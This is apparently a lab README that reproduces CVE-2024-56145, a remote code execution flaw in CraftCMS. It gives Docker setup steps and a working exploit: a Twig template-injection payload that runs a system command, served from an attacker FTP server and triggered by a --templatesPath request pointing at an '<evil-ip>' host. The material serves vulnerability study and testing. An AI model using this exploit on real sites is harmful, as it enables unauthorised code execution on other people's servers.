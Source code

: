 # CraftCMS `register_argc_argv` Leads to Remote Code Execution (CVE-2024-56145)

CraftCMS is a PHP-based content management system for building websites and applications.

CraftCMS version before 5.5.2 and 4.13.2 is vulnerable to remote code execution if the PHP setting `register_argc_argv` is enabled. When `register_argc_argv` is enabled, CraftCMS incorrectly reads configuration items from the HTTP request, allowing an attacker to control template files using the `--templatesPath`, which can lead to arbitrary code execution through template injection.

Reference:

- <https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9>
- <https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms>

## Vulnerable Environment

Execute the following command to start a CraftCMS server 5.5.1.1:

```
docker-compose up -d
```

After the server is running, you can see the installation page at `http://<your-ip>:8088/admin/install`. Please follow the instructions to install CraftCMS, the default database address is `db` and the username and password are both `root`.

![](1.png)

## Exploit

To reproduce the vulnerability, you need to prepare a craft `index.twig` file which contains the following content, then place it on any remote server:

```twig
{{ ['system', 'id'] | sort('call_user_func') | join('') }}
```

Then start a FTP server in the server where the `index.twig` file is located:

```bash
# install pyftpdlib
pip install pyftpdlib

# start a FTP server
python -m pyftpdlib -p 21212 -V
```

Then you can exploit the vulnerability by sending the following request:

```
http://<your-ip>:8088/?--templatesPath=ftp://<evil-ip>:21212/
```

![](2.png)

As you can see, the `id` command is executed and the output is returned.
